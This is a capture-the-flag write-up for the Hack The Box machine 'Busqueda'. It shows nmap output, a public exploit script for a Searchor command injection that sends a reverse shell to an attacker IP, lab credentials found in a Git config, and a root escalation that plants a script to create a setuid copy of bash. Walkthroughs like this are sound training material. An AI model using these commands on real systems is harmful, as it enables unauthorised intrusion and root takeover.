









# Busqueda

Busqueda is an Easy Difficulty Linux machine that involves exploiting a command injection vulnerability present in a `Python` module. By leveraging this vulnerability, we gain user-level access to the machine. To escalate privileges to `root`, we discover credentials within a `Git` config file, allowing us to log into a local `Gitea` service. Additionally, we uncover that a system checkup script can be executed with `root` privileges by a specific user. By utilizing this script, we enumerate `Docker` containers that reveal credentials for the `administrator` user\&amp;#039;s `Gitea` account. Further analysis of the system checkup script\&amp;#039;s source code in a `Git` repository reveals a means to exploit a relative path reference, granting us Remote Code Execution (RCE) with `root` privileges.


<figure><figcaption></figcaption></figure>


lets begin with nmap -A 10.10.11.208 :&#x20;

```
nmap -A 10.10.11.208Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-13 10:47 EDT
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 49.80% done; ETC: 10:47 (0:00:13 remaining)
Stats: 0:00:24 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 10:47 (0:00:06 remaining)
Nmap scan report for 10.10.11.208
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_ 256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open http Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.37 seconds

```

after edit /etc/hosts and add as searcher.htb

then visit website

<figure><figcaption><p>http://searcher.htb/</p></figcaption></figure>

we notice seachor 2.4.0 version

<figure><figcaption></figcaption></figure>

lets find exploit or cve for it

I found cve that RCE to it



here is automation of exploit



lets make the user shell

run command inside exploit folder

```
./exploit.sh searcher.htb <attacker-ip>
```

> note : by default Run the exploit with default port `9001` on attacker host

if you want specific port

```
./exploit.sh searcher.htb <attacker-ip> <attacker-port>
```

user.txt flag

<figure><figcaption></figcaption></figure>

lets return to /var/www/app

and ls -la

here is .git

lets see it

<figure><figcaption></figcaption></figure>

here is config file lts see it what does have

<figure><figcaption></figcaption></figure>

we found credentials and website

1- credentials cody:jh1usoih2bkjaspwe92 and its same user on system svc but cody in website

2- gitea.searcher.htb (add it to /etc/hosts )

<figure><figcaption></figcaption></figure>

lets visit cody just for review

<figure><figcaption></figcaption></figure>

now lets return to our shell to see the sudoers what we can do as sudo

<figure><figcaption></figcaption></figure>

so we have

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
```

here what we can do with it

<figure><figcaption></figcaption></figure>

lets do docker-inspect

```
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq .
```

We found password&#x20;

<figure><figcaption></figcaption></figure>

lets try login in as administrator:yuiu1hoiu4i5ho1uh in gitea

works :)!!

<figure><figcaption></figcaption></figure>

lets review scripts packege it has root access so from administrator so lets make sudoers as file and make shell with root access

<figure><figcaption></figcaption></figure>

permissions as we said

<figure><figcaption></figcaption></figure>

```
 echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xcybersoldier\nchmod 4777 /tmp/0xcybersoldier' > full-checkup.sh
```

<figure><figcaption></figcaption></figure>

```
sudo python3 /opt/scripts/system-checkup.py full-checkup
[+] Done!
svc@busqueda:/tmp$ ls
ls
0xcybersoldier
full-checkup.sh
snap-private-tmp
svc@busqueda:/$ /tmp/0xcybersoldier -p
/tmp/0xcybersoldier -p
whoami
root
cat /root/root.txt
```

<figure><figcaption></figcaption></figure>
